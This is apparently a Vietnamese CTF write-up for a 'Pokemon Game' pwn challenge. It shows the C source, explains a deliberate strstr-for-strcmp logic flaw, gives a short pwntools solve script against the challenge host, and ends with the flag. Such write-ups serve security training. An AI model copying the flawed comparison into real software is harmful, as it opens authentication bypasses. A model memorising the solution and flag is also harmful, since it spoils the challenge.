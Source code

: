# Pokemon Game (Pwn)

Bài cho sẵn source code

{% code lineNumbers="true" %}
```c
#include<stdio.h>
#include<string.h>
#include<time.h>
#include<stdlib.h>

void win(){
	system("cat flag.txt");
}

char *pokemons[3] = {"Bulbasaur", "Charmander", "Squirtle"};
char *pokemonss[3] = {"Charmander", "Squirtle", "Bulbasaur"};
int times = 0;

int read_line(char *buf, int n)
{
    for (int i = 0; i < n; ++i)
    {
        if (fread(buf + i, 1, 1, stdin) != 1)
        {
            puts("Fatal error!");
            exit(-1);
        }
        if (buf[i] == '\n')
        {
            buf[i] = '\0';
            return i;
        }
    }

    buf[n - 1] = '\0';
    return n;
}

int Play(){
	char choice[30];
	srand(time(NULL));
he:
	printf("Your choice: ");
	read_line(choice, sizeof(choice));
	if(!strcmp(choice,"Bulbasaur")){
		printf("\nYou choose the Bulbasaur\n");
	}
	else if(!strcmp(choice,"Charmander")){
		printf("\nYou choose the Charmander\n");
	}	
	else if(!strcmp(choice,"Squirtle")){
		printf("\nYou choose the Squirtle\n");
	}
	int computer = rand()%3;
	printf("The computer choose: %s\n", pokemons[computer]);
	if(strstr(choice, pokemonss[computer])){
		printf("You win. Do you want to continue playing?\n\n");
		return 1;
	}
	else{
		printf("You lose, play again?\n\n");
		return 0;
	}
}

int main(){
	setvbuf(stdin, 0LL, 2, 0LL);
	setvbuf(stdout, 0LL, 2, 0LL);
	
	printf("--------WELCOME TO POKEMON GAME--------\n")	;
	printf("Choose one of the following three pokemons to start the game:\n\n");
	printf("---\nBulbasaur\nCharmander\nSquirtle\n---\n");   	
	printf("You need to beat a computer pokemon 10 times to win this game.\n");
	printf("Hint: Pokemon counter each other, you need to choose the right pokemon to win.\n\n");
	while(1){
		if(Play()){
			times++;
		}	
		else{
			times--;
		}
		if(times==5){
			printf("You are winning %d times, come on!!\n\n", times);
		} 
		if(times>10){
			printf("Congrats. You win the game, here is your gift: ");
			win();
		}
	}
	return 0;
}

```
{% endcode %}

Bài này dính lỗi ở line 51, dùng hàm `strstr` thay vì hàm `strcmp`. Hàm `strstr` chỉ kiểm tra `pokemonss[computer]` có ở trong `choice` hay không.

Chỉ cần ghi biến choice chứa hết các string của `pokemonss.`

Script giải:

{% code lineNumbers="true" %}
```python
from pwn import *
from time import sleep
p=remote("45.122.249.68",10017)

p.recv()
for i in range(11):
	p.sendline(b"BulbasaurCharmanderSquirtle")
	sleep(1)
p.interactive()
	

```
{% endcode %}

<figure><img src="../../.gitbook/assets/Screenshot 2022-10-11 134349.png" alt=""><figcaption></figcaption></figure>

Flag: `W1{MU_VODICHHHHHHHHHHHHHHHHHHHHHHHHHHHH}`
